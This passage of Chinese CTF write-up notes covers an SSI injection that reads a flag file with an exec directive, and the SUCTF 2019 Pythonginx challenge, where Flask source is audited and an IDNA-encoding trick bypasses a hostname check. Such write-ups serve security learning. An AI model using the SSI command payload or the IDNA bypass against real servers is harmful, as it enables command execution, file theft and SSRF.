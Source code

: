 ![image-20231217190441835](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231217190441835.png)

SSI注入漏洞

[SSI注入漏洞_http_ssi_exec指令注入漏洞-CSDN博客](https://blog.csdn.net/qq_40657585/article/details/84260844)

```
<!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2"-->
```

得到flag

![image-20231217192151653](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231217192151653.png)



## [SUCTF 2019]Pythonginx

[[SUCTF 2019\]Pythonginx 1_cve-2019-9636-CSDN博客](https://blog.csdn.net/rfrder/article/details/109743728)

[[SUCTF 2019\]Pythonginx 1-CSDN博客](https://blog.csdn.net/m0_62879498/article/details/124725500)

###### python代码审计

访问源代码得到：

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

代码审计
前两个 if 判断 host是否含有 suctf.cc 如果有就报错，经过 utf-8 解码 idna 编码 之后传入到 urlunsplit函数 组合成url ，再用 if 和suctf.cc进行一次比较 如果相同 就 进行读取。

我们先了解下 idna
idna 国际化域名应用，国际化域名(Internationalized Domain Name,IDN)又名特殊字符域名，是指部分或完全使用特殊文字或字母组成的互联网域名，包括中文、发育、阿拉伯语、希伯来语或拉丁字母等非英文字母，这些文字经过多字节万国码编码而成。在域名系统中，国际化域名使用punycode转写并以
ASCII字符串存储。
.
℆这个字符,如果使用python3进行idna编码的话
print(‘℆’.encode(‘idna’))
结果
b’c/u’
如果再使用utf-8进行解码的话
print(b’c/u’.decode(‘utf-8’))
结果
c/u
通过这种方法可以绕过本题